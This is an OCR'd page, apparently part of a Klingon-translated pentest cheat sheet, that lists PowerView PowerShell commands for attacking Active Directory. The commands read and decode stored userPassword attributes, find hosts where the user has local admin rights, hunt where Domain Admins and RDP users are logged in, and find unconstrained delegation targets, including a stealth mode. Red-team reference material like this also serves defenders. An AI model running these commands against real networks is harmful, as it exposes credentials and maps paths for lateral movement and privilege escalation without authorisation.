#### **Klingon Translation:**

### **QaD**-**ghItlh**
```powershell
#Check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl

#Asks DC for all computers, and asks every compute if it has admin access (very noisy). You need RCP and SMB ports opened.
Find-LocalAdminAccess

#(This time you need to give the list of computers in the domain) Do the same as before but trying to execute a WMI action in each computer (admin privs are needed to do so). Useful if RCP and SMB ports are closed.
.\Find-WMILocalAdminAccess.ps1 -ComputerFile .\computers.txt

#Enumerate machines where a particular user/group identity has local admin rights
Get-DomainGPOUserLocalGroupMapping -Identity <User/Group>

# Enumerates the members of specified local group (default administrators)
# for all the targeted machines on the current (or specified) domain.
Invoke-EnumerateLocalAdmin
Find-DomainLocalGroupMember

#Search unconstrained delegation computers and show users
Find-DomainUserLocation -ComputerUnconstrained -ShowAll

#Admin users that allow delegation, logged into servers that allow unconstrained delegation
Find-DomainUserLocation -ComputerUnconstrained -UserAdminCount -UserAllowDelegation

#Get members from Domain Admins (default) and a list of computers
# and check if any of the users is logged in any machine running Get-NetSession/Get-NetLoggedon on each host.
# If -Checkaccess, then it also check for LocalAdmin access in the hosts.
## By default users inside Domain Admins are searched
Find-DomainUserLocation [-CheckAccess] | select UserName, SessionFromName
Invoke-UserHunter [-CheckAccess]

#Search "RDPUsers" users
Invoke-UserHunter -GroupName "RDPUsers"

#It will only search for active users inside high traffic servers (DC, File Servers and Distributed File servers)
Invoke-UserHunter -Stealth
```
### lo'laHbe'chugh

#### Get-ADObject
